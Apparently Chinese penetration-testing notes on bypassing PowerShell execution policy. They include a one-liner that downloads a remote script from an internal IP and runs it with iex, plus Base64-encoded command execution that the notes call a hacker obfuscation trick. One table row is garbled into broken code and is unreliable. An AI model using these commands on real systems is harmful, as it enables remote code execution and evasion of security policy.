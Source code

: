 绕过安全执行策略

1. Get-ExecutionPolicy  获取当前的执行策略
2. Get-Content .test.ps1 | powershell.exe -noprofile –   通过管道输入进ps
3. powershell -nop -c “iex(New-Object Net.WebClient).DownloadString(‘http://192.168.1.2/test.ps1‘)”    #通过远程下载脚本来绕过|​bytes = [System.Text.Encoding]::Unicode.GetBytes(​encodedCommand =[Convert]::ToBase64String(​encodedCommand|通过BASE64编码执行|

## 通过控制台执行powershell

对于安全测试人员通常获得的一个shell是cmd的，那么我们想要尽可能少的操作就可以直接通过控制台来执行powershell 的命令
 ` powershell -command "get-host" `
 
该命令通过cmd界面执行了powershell的代码，其实这样的执行方式在真是的安全测试环境中利用更多。

```
PowerShell[.exe]
       [-PSConsoleFile <file> | -Version <version>]
       [-EncodedCommand <Base64EncodedCommand>]
       [-ExecutionPolicy <ExecutionPolicy>]
       [-File <filePath> <args>]
       [-InputFormat {Text | XML}] 
       [-NoExit]
       [-NoLogo]
       [-NonInteractive] 
       [-NoProfile] 
       [-OutputFormat {Text | XML}] 
       [-Sta]
       [-WindowStyle <style>]
       [-Command { - | <script-block> [-args <arg-array>]
                     | <string> [<CommandParameters>] } ]
​
PowerShell[.exe] -Help | -? | /?
名称	解释
-Command	需要执行的代码
-ExecutionPolicy	设置默认的执行策略，一般使用Bypass
-EncodedCommand	    执行Base64代码
-File	            这是需要执行的脚本名
-NoExit	执行完成命令之后不会立即退出，比如我们执行powerhsell whoami 执行完成之后会推出我们的PS会话，如果我们加上这个参数，运行完之后还是会继续停留在PS的界面
-NoLogo	不输出PS的Banner信息
-Noninteractive	不开启交互式的会话
-NoProfile	不使用当前用户使用的配置文件
-Sta	以单线程模式启动ps
-Version	设置用什么版本去执行代码
-WindowStyle	设置Powershell的执行窗口，有下面的参数Normal, Minimized, Maximized, or Hidden
```

举个例子
1. 我们先试用上面的一个表格提到的编码代码EncodeCommand 命令 执行whoami ,whomai 64编码 dwBoAG8AYQBtAGkACgA=
2. 执行命令 ` powershell -EncodedCommand dwBoAG8AYQBtAGkACgA= `
该方法可以 混淆代码，也是常用的黑客手法之一。


